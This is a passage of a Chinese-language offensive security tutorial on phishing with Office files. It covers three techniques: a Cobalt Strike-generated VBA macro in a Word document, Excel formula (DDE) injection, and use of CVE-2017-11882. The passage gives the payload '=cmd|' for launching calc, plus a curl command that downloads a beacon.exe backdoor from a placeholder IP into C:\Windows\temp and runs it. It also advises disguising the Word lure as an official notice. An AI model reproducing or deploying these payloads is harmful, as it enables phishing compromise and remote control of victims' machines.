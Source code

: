 步骤一：使用cs生成恶意vba代码

![]()

![]()

步骤二：新建doc文档，创建宏，保存即可

![]()

步骤三：再次打开文件后提示是否启用宏，点击启用就会上线cs

![]()

![]()

### 0x04.Excel注入

Excel注入是一种将包含恶意命令的excel公式插入到可以导出csv或xls等格式的文本中，当在excel中打开xls文件时，文件会转换为excel格式并提供excel公式的执行功能，从而造成命令执行。

 **利用excel注入弹出计算器**

注入代码：`=cmd| '/c calc'! '!A1'`

![]()

![]()

 **利用excel注入上线cs**

步骤一：使用cs生成exe后门，并放到服务器上

![]()

步骤二：更换恶意代码

`=cmd| '/c curl http://xxx.xxx.xxx.xxx/beacon.exe --output
C:\Windows\temp\win.exe && C:\Windows\temp\win.exe' ! 'A1'`

![]()

当双击打开该excel时就会执行恶意代码下载cs后门并运行 ，上线cs

![]()

### 0x05.CVE-2017-11882

cve-2017-11882漏洞也是word钓鱼的一种方式，相比宏病毒更加的隐蔽，把word伪装成某某通知文件，目标点击后就直接可以直接上线。

利用cve-2017-11882弹出计算器：

下载poc：https://github.com/Ridter/CVE-2017-11882

生成带有病毒的word文件
